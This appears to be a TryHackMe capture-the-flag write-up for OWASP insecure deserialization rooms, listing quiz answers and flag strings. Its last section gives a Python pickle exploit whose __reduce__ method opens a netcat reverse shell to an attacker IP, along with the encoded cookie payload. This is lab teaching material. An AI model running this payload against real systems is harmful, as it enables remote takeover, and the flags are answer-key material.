 ### What is the name of the base-2 formatting that data is sent across a network as?
> *Answer:* binary


<br><br>
# [Severity 8] Insecure Deserialization - Cookies

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?
> *Answer:* webapp.com/login

### What is the acronym for the web technology that Secure cookies work over?
> *Answer:* https


<br><br>
# [Severity 8] Insecure Deserialization - Cookies Practical

### 1st flag (cookie value)
```
Decode cookie sessionId
```
> *Answer:* THM{good_old_base64_huh}

### 2nd flag (admin dashboard)
```
Change our userType to admin
```
> *Answer:* THM{heres_the_admin_flag}


<br><br>
# [Severity 8] Insecure Deserialization - Code Execution

### flag.txt
Create a python file to paste into, I have used "rce.py".
```
┌──(root💀kali)-[~]
└─# cat > rce.py                    
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
        def __reduce__(self):
                import os
                return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))

┌──(root💀kali)-[~]
└─# python3 rce.py                                         
b'gASVdQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFpybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOC4yNDEuMTQxIDQ0NDQgPiAvdG1wL2aUhZRSlC4='
```
Paste the output into the "encodedPayload" cookie in your browser.